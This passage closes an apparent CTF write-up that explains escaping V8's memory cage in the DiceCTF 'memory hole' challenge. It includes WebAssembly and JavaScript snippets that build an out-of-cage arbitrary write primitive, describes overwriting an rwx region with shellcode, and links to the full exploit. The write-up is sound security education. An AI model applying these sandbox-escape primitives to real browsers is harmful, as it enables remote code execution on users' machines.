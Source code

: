 From the screenshot, we can clearly tell the V8 tries to treat our controlled value as an array pointer and load/store a value into where its first element points to. The most important thing here is that: everything is addressed in 64bit!!! No more cage!!!

Now things are easy, we first need to enhance our wat code. Instead of increasing the global value, we want it to store an arbitrary value into the global variable. This is implemented like this:
~~~
(module
   (global $g (import "js" "global") (mut i64))
   (func (export "getGlobal") (result i64)
        (global.get $g))
   (func (export "incGlobal")
        (global.set $g
            (i64.add (global.get $g) (i64.const 1))))
   (func (export "setGlobal") (param $p1 i64)
        (global.set $g (local.get $p1)))
)
~~~
Finally, we need to create a fake `imported_mutable_global` array. And remember, the first element in the array is the address where we can write to. Since we have full control over the cage, this fake array can be easily created inside the cage. And then we obtain a clean arbitrary write primitive:
~~~
function write4(addr, value) {
    arr3[victim_idx + 0x50/4] = addr & 0xffffffff;
    arr3[victim_idx + 0x50/4 + 1] = addr / 0x100000000;
    wasm_instance.exports.setGlobal(BigInt(value));
}
~~~
In the snippet, the first two lines prepare the 64bit out-of-cage pointer inside the fake array, the last line invoke the write and stores the value to the location.

Great! We now have arbitrary write primitive outside of the cage. At this point, we can say we successfully escape the cage.

# Arbitrary Write to Shellcode
Now things are clear. We can use the in-cage arbitrary read/write primitive to read out the address of the rwx region and then use the out-of-cage arbitrary write primitive to overwrite the code with our shellcode.

And then here is the flag: `dice{h0p-rop-pop-y0ur-w@y-out-of-the-sandb0x}`
The full exploits can be found [here](https://github.com/Kyle-Kyle/blog/blob/master/writeups/dice22_memory_hole).

# Conclusion
This challenge is just fun fun fun. I learnt and broke the "Virtual Memory Cage" protection in V8, which is exciting. And I also learnt a liiitle bit of webassembly. This may be a sign that I'm recovering from the PTSD about webassembly caused by a reversing challenge from a few years ago.

Oh btw, my solution is clearly not the intended solution as you can tell from the flag (which suggests ROP). The challenge author @chop0 told me that his approach involves overwriting "registerfile of a generator whilst it's suspended". I have no idea how it works and I'm eagerly waiting for his writeup. :D
